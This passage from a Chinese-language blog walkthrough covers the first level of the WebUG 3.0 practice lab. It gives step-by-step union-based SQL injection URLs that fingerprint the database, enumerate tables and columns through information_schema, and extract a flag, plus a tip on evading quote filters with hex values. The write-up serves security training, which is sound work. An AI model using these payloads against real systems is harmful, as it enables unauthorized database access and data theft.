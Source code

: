直到4的时候显示正常： 

<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_1_05.png" />

列长为4  

然后就是爆出现在使用的数据库，版本号，用户

user():返回当前数据库连接使用的用户

database():返回当前使用的数据库

version():返回当前数据库版本

`http://192.168.78.130/pentest/test/sqli/sqltamp.php?gid=-1' union select 1,2,concat_ws(char(32,58,32),database(),version(),user()),4%23`

<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_1_06.png" />



现在使用的数据库是：pentesterlab 

然后再爆表：

补充知识：

mysql的数据库information_schema，他是系统数据库，安装完就有，记录是当前数据库的数据库，表，列，用户权限等信息，下面说一下常用的几个表：

SCHEMATA表：储存mysql所有数据库的基本信息，包括数据库名，编码类型路径等，show databases的结果取之此表。

TABLES表：储存mysql中的表信息，（当然也有数据库名这一列，这样才能找到哪个数据库有哪些表嘛）包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等。show tables from schemaname的结果取之此表

COLUMNS表：提供了表中的列信息，（当然也有数据库名和表名称这两列）详细表述了某张表的所有列以及每个列的信息，包括该列是那个表中的第几列，列的数据类型，列的编码类型，列的权限，列的注释等。是show columns from schemaname.tablename的结果取之此表。

注意，查询information_schema中的信息时，使用where语句，那个值不能直接用英文，要用单引号包裹着，当然用其十六进制表示也可以，数值类型的就不用单引号了，这对过滤单引号应该有指导意义。

构造：

`http://192.168.78.130/pentest/test/sqli/sqltamp.php?gid=-1' union select 1,2,3,table_name from information_schema.tables where table_schema='pentesterlab'%23`

<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_1_07.png" />

看到中间有一个flag的表，然后爆列：

`http://192.168.78.130/pentest/test/sqli/sqltamp.php?gid=-1' union select 1,2,3,column_name from information_schema.columns where table_name ='flag'%23`

<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_1_08.png" />

查flag的值：

`http://192.168.78.130/pentest/test/sqli/sqltamp.php?gid=-1' union select 1,2,3,flag from flag%23`

<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_1_09.png" />

### 第二关：从图片中你能找到什么？ 从图片中找到有用的东西

